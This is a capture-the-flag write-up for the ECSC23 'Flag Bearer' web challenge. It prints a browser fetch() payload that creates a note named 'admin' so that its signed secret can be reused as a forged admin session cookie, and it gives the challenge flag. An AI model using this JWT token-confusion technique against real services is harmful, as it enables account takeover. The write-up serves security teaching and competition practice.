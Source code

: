 # Flag Bearer

> The admin knows the flag but won't tell me.
>
> https://flag-bearer.ecsc23.hack.cert.pl/

## Solution
The website allows the users to create the notes (each note has a random UUIDv4 as a name) and share them with others using a "note secret", which is a JWT token with a field `name` containing the note's name. Interestingly, `session` cookie is also a JWT with a field called `name`, this time holding user's nickname. After viewing the source of `/notes` subpage, interesting piece of JS code can be found:
```js
function uuidv4() {
  return ([1e7]+-1e3+-4e3+-8e3+-1e11).replace(/[018]/g, c =>
    (c ^ crypto.getRandomValues(new Uint8Array(1))[0] & 15 >> c / 4).toString(16)
  );
}

let noteForm = document.getElementById("addnote");
noteForm.addEventListener("submit", (e) => {
  e.preventDefault();

  let name = uuidv4()
  let content = document.getElementById("content").value;

  const r = fetch("/notes", {
    method: "POST",
    body: JSON.stringify({
      name: name,
      content: content,
    }),
    headers: {
      "Content-type": "application/json; charset=UTF-8"
    }
  }).then((data) => {
    location.reload();
  })
  
});
```
This means that the note's name can be arbitrarily chosen by the client and hence it's possible to forge a valid JWT token with `name` set to `admin` and then set it as `session` cookie and read admin's notes. This can be accomplished by running the following code from browser's JS console and then reading the new note's secret:
```js
fetch("/notes", {
    method: "POST",
    body: JSON.stringify({
      name: "admin",
      content: "pwned!",
    }),
    headers: {
      "Content-type": "application/json; charset=UTF-8"
    }
  }).then((data) => {
    location.reload();
  })
```

## Flag
`ecsc23{eyyyyyyyyyylmao}`